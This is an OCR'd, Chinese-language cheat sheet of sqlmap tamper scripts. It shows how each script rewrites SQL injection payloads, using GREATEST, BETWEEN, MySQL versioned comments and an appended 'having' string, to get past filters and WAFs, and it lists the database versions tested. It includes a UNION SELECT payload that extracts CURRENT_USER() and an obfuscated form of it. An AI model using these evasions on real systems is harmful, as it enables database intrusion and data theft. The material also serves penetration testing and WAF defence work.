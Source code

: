 ``` 

SELECT * FROM users WHERE id=1
SELECT * FROM users WHERE id LIKE 1

2:greatest.py

作用：绕过过滤’>’ ,用GREATEST替换大于号。

示例：

'1 AND A > B'
'1 AND GREATEST(A,B+1)=A'

在以下版本做过测试:

MySQL 4, 5.0 and 5.5
Oracle 10g
PostgreSQL 8.3, 8.4, 9.0

3:between.py

作用：用between替换大于号（>）

示例：

'1 AND A > B--'
'1 AND A NOT BETWEEN 0 AND B--'

在以下版本做过测试:

Microsoft SQL Server 2005 MySQL 4, 5.0 and 5.5
Oracle 10g
PostgreSQL 8.3, 8.4, 9.0

其他类型：

1:versionedmorekeywords.py

作用：注释绕过

示例：

1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))# 
1/*!UNION**!ALL**!SELECT**!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS**!CHAR*/),/*!CHAR*/(32)),/*!CHAR*/(58,115,114,121,58))#

版本要求:

MySQL >= 5.1.13

2:securesphere.py

作用：追加特制的字符串

示例：

'1 AND 1=1'
"1 AND 1=1 and '0having'='0having'"

在以下版本做过测试:

All
```